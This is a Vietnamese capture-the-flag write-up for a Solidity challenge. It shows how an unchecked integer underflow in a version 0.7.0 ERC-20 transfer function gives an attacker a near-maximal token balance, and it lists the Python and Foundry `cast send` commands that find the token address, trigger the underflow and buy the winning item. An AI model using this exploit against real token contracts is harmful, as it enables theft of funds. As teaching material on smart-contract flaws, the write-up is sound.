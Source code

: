# Token to Wonderland

![alt text](image.png)

```
Lưu ý: Sử dụng công cụ Foundry trên command line để tương tác blockchain.
```

Trong challenge này, ba contract được cung cấp: `Setup`, `Shop` và `SilverCoin`. Tuy nhiên, chỉ có hai address được cung cấp thuộc về `Setup` và `Shop`. Hơn nữa, khi xem source code của các contract, thấy rằng address của `SilverCoin` không được hard-coded ở đâu đó. Vì vậy, challenge đầu tiên là tìm address của SilverCoin nếu cần.

Tiếp tục với các chức năng của contract. Không tập trung vào từng chức năng được implementation, nhưng sẽ đề cập chung đến chúng bằng cách tập trung vào những chức năng quan trọng.

Contact `Setup` deploy contract `SilverCoin` mới trong constructor của nó và sau đó chuyển 100 silver coin. Ngoài ra, yêu cầu để solve challenge phải là chủ sở hữu của key, là một vật phẩm trong shop.

`Shop` chỉ đơn giản là một contract lưu trữ ba mục với name, price và address của chủ sở hữu. Các mục là các biến có kiểu struct. Giá của các mục được tính theo SilverCoin. Ban đầu, chủ sở hữu của các mục đó là chính Shop và để sở hữu key, cần phải trả 25 triệu đồng bạc. Vì vậy, challenge thứ hai là tăng số dư silver coin bằng cách nào đó và mua key thông qua hàm `buyItem`. Phần quan trọng trong hàm `buyItem` là không chuyển tiền coin, thay vào đó, contract `Shop` chuyển tiền. Nó tương tự như bất kỳ deploy token ERC-20 nào. Vì lý do này, phải cấp thêm quyền cho contract `Shop` để chi tiêu silver coin.

`SilverCoin` là một contract token tương thích với các tiêu chuẩn ERC-20. Nó bao gồm các biến trạng thái như balance, allowance và các chức năng như transfer, transferFrom, approve, v.v. Contract `shop` sử dụng `phương thức transferFrom của SilverCoin` để mua một mặt hàng. Tương tự như `transferFrom`, cũng có một chức năng `transfer`.

```
function _transfer(address from, address to, uint256 amount) internal {
        require(from != address(0), "ERC20: transfer from the zero address");
        require(to != address(0), "ERC20: transfer to the zero address");

        uint256 fromBalance = _balances[from];
        require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");
        _balances[from] = fromBalance - amount;
        _balances[to] += amount;
        emit Transfer(from, to, amount);
    }
```

Ở trên triển khai `hàm _transfer`. Về cơ bản, nó giảm số lượng `from address` và tăng số lượng `to address`. Mặc dù có vẻ như là một implementation đúng, nhưng nó có thể dẫn đến tràn số nguyên trong các phiên bản Solidity dưới phiên bản 0.8.0. May mắn thay, nó được triển khai trong phiên bản 0.7.0, nói cách khác, kết quả của các phép toán số học không được kiểm tra.

```
Overflow/underflow integer là gì? Lỗ hổng tràn số nguyên và thiếu số nguyên là một vấn đề phổ biến trong lập trình, đặc biệt là trong các ngôn ngữ kiểu tĩnh như C hoặc Solidity. Solidity hỗ trợ các kiểu dữ liệu khác nhau cho số nguyên có dấu và không dấu với các kích thước khác nhau. Nó thay đổi từ số nguyên 8 bit đến số nguyên 256 bit. Các số nguyên có thể được giữ bởi các biến này bị giới hạn trong một phạm vi nhất định. Ví dụ, uint8 biểu diễn một số nguyên không dấu 8 bit, nghĩa là nó có thể lưu trữ các giá trị từ 0 đến 255. Tràn số nguyên xảy ra khi một giá trị cao hơn giá trị tối đa mà một biến có thể giữ được được gán. Tương tự như vậy, thiếu số nguyên xảy ra khi một giá trị thấp hơn giá trị tối thiểu được gán. Ví dụ, nếu số 256 được gán cho một biến kiểu uint8, nó sẽ được lưu trữ dưới dạng 0. Tương tự như vậy, khi số -1 được gán cho biến đó, nó sẽ được lưu trữ dưới dạng 255. Nói cách khác, giá trị được gán không được nằm ngoài phạm vi có thể biểu diễn. Để ngăn ngừa những trường hợp đó, giá trị đầu ra của phép toán số học phải được kiểm tra. Việc này được thực hiện bởi trình biên dịch solidity trong các phiên bản ≥ v. 0.8.0.
```

Trong trường hợp này, vì phiên bản solidity là 0.7.0, nên dễ bị tràn số nguyên. Giá trị số dư là số nguyên không dấu 256 bit. Nếu cố gắng chuyển 101 silver coins, sẽ có một lượng coins quá mức do tràn số nguyên. (100–101) = -1 = (2²⁵⁶ -1)

## Solution

Đầu tiên cần tìm địa chỉ của SilverCoin. Address contract được tạo ra một cách xác định từ sự kết hợp của address deploy và giá trị nonce của nó. Giá trị nonce của mỗi contract bắt đầu từ 1 và tăng thêm 1 sau mỗi lần deploy contract. Để tìm địa chỉ, sử dụng thư viện eth-utils trong python — xem code bên dưới. Đừng quên thay đổi address setup.

```
import rlp
from eth_utils import keccak, to_checksum_address, to_bytes


def mk_contract_address(sender: str, nonce: int) -> str:
    sender_bytes = to_bytes(hexstr=sender)
    raw = rlp.encode([sender_bytes, nonce])
    h = keccak(raw)
    address_bytes = h[12:]
    return to_checksum_address(address_bytes)

setup_addr = "0xb0031ad08fB469764019b1B0d8b0D1e1d824fcd3"
_addr = to_checksum_address(mk_contract_address(to_checksum_address(setup_addr), 1))
print(_addr)

# _addr = 0xD5929908974F6d484BD2D9a172e44A0b1e412334
```

Với script đơn giản này, tìm thấy address của `SilverCoin`.

Điều phải làm bây giờ là tăng số dư thông qua việc khai thác lỗ hổng underflow trong hàm truyền. Dưới đây, có thể thấy phần dễ bị tấn công của hàm truyền.

```
// Integer underflow

uint256 fromBalance = _balances[from];
require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");
_balances[from] = fromBalance - amount;
```

Khi gọi hàm này với số lượng bằng 101 (hoặc cao hơn), sẽ kích hoạt lỗ hổng theo cách sau:

1. Số Balance là 100, do đó `fromBalance` bằng 100.

2. fromBalance-amount = 100–101 = -1 = (2²⁵⁶ — 1) (Underflows). Theo cách đó, câu lệnh require trở thành True.

3. Balance được đặt là 2²⁵⁶ — 1.

Để exploit và thu được một lượng lớn silver coin, chuyển 101 silver coin đến address setup bằng command sau.

```
cast send $silver_coin "transfer(address,uint256)(bool)" $setup 101 --rpc-url $rpc --private-key $private_key
```

Bây giờ, có quá nhiều token. Có thể xem hình ảnh bên dưới.

![alt text](image-1.png)

Vì có đủ silver coin, có thể chỉ cần mua vật phẩm và solve puzzle. Với mục đích này, trước tiên phải cấp quyền cho address contract `Shop` để có thể chi tiêu token. Để làm điều đó, gọi hàm `approve` của silver coin.

```
cast send $silver_coin "approve(address,uint256)(bool)" $shop 250000000 --rpc-url $rpc --private-key $private_key
```

Lệnh trên cấp quyền cho address shop để chi 250 triệu silver coin. Chỉ cần gọi hàm approve của contract Silver Coin.

Tiếp theo, gọi buyItem với giá trị index 2 (chỉ số của Golden Key).

```
cast send $shop "buyItem(uint256)" 2 --rpc-url $rpc --private-key $private_key
```

Mua thành công Golden Key và solve challenge.